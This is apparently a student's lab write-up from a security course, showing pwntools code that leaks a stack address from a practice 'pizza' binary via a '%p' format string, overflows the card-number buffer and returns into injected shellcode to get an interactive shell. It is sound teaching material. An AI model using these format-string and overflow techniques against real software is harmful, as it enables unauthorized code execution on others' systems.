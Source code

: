 # Control Flow Violation

This week was about using pwntools to insert a shell into a victim process. This task consisted of a couple of steps. First we need to find a memory leak to learn where our program runs
. We then need to identify a buffer that is not properly managed to write to the stack. Finally we need to identify where to write to ret and input our shellcode. 

### Step 1: find vulnerabilities

The first task was to run our victim code and identify the key vulnerabilities. 

#### The memory leak

In order to find a memory leak we had to identify potential week points in the code. For example, our victim code pizza when ran appears to step through a pizza ordering porcess. 
It requests a name a number of pizzas and the card number. 

To test these features we gave each of them potentially breaking tests. In this case I gave name a large ammount of A's as the name to see if memory control was properly setup. 
In this case it was found to not be. 

![image](https://user-images.githubusercontent.com/44854053/235506419-a2dd782c-e779-412c-ab82-475fad098dfa.png)

In this we can also see that it segment faults post a print statement. In this case I assumed based on teachers instructions that this might be printf. 
Assuming that this is printf if it is not properly protected we can get more data from it. By sending a valid looking name followed by ```%p %p ... ``` we can ask the program to 
print pointers. This will allow us to see farther in the stack and see memory adresses or a memory leak. Fromt here it was trial and error to see how many pointers we needed to 
see an address that was most likely on the stack. We could compare this to adresses generated in the core file after we force segmentation faults. 


This leads to our first part of code which uses the ```%p``` to find the memory adress.

```py

input1 = b"Cantinflas %p %p %p %p %p %p %p"

victim = process("./pizza")

#memory leak
print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)
leak = str(victim.recvline(), "latin-1").split()[-1]
print(leak)
leak_int = int(leak,16)

```

#### The second un-secured buffer

Finding the memory leak was important beacuse it allows us to locate the potential range of our attack vector. Where we can insert the shellcode and its address. But perhaps e
qually as important is finding a second buffer that is also unsecured such that we can overflow back to the return pointers. 

This meant returnning to our victim process and seeing at what further points in the program that it could break. The first potential point was the number of pizzas however even though there was not proper type casting/input validation it seemed unlikely to contain what we need. 

![image](https://user-images.githubusercontent.com/44854053/235508426-c79d969f-698d-4e34-9882-cd82a101a23b.png)


The next place was the credit card number request.  I used a similair method to before to check for a potential overflow spot and it worked. 

![image](https://user-images.githubusercontent.com/44854053/235508731-578d7e03-85f6-4195-9b29-91a7e51d90f9.png)


### Step 2: Identifying where to write 

From step 1 we have Identified both of the needed vulnerabilities. The next step is to use these vulnerabilities as well as core files to write our shellcode and a return pointer to it. 

#### Identifying where to write. 

From there we forced segmentation faults to create core files. We do this because we want to validate the memory address of where the program is running as well as the stack locations of the RSP RIP and RBP.

![image](https://user-images.githubusercontent.com/44854053/235513424-9528fd54-605e-4eea-8959-b7b8aa61a329.png)

we get this information by slightly overwriting the buffer as well as generating the core file by using this code segment

```py 

#generate a core file to check key value
core = victim.corefile
rsp = core.rsp
rbp = core.rbp

rip = core.rip
#read at rsp 8 bytes,then at +8 rsp then at +8 that
topostack = core.read(rsp,8)
topostack_1 = core.read(rsp+8,8)
topostack_2 = core.read(rsp+16,8)

#gettin the memory adresses
print(f"rsp: {hex(rsp)}")
print(f"rbp: {hex(rbp)}")
print(f"rip: {hex(rip)}")


print(f"Top of stack contains:{hex(int.from_bytes(topostack,'little'))}")
print(f"Top of stack +1 contains:{hex(int.from_bytes(topostack_1,'little'))}")
print(f"Top of stack +2 contains:{hex(int.from_bytes(topostack_2,'little'))}")
print(f"I think the shellcode is at:{hex(shellcodeplace)}")

```

From the core file I fine tuned the number of bytes until we could see the shellcode near where we want it. 

### Completing the injection

From there it was a matter of generating tests and potential sizes of bufferoverflow to write. This included predicting where our overwritten rsp would point to the shellcode. 

![image](https://user-images.githubusercontent.com/44854053/235514687-caa97db4-3da9-49b8-95d9-b1a4bb90f137.png)

By trial and error we could see that the adress generated from our memory leak tended to be hex 20 from our predicted. We then used the following code to generate the overflow we then use the interactive command to check that our shellcode was properly injected. It also allows us to run multiple commands in the shellcode.

```py
#by looking at our prints we can see shell at top of stack is +10 
#from our memory leak we want to put this in rip for the return
shellcodeplace = leak_int + 0x20

#the buffer overflow
#we need between 130 & 150 bytes
input2 =  b"A"*128 + b"ZZZZZZZZ"+ p64(shellcodeplace) + shellcode 
victim.sendline(input2)

print(str(victim.recvline(), "latin-1"))

#victim.sendline(payload)
victim.interactive()

```
I then tested this by running the program multiple times. 

![image](https://user-images.githubusercontent.com/44854053/235515385-c305f384-e6fd-4d39-9c83-4f5466175183.png)


![image](https://user-images.githubusercontent.com/44854053/235515318-a3df19bc-ad3f-4b18-b9f5-99808b7e6d9b.png)

## The completed program ![code](./controlflowviolation/inject.py)
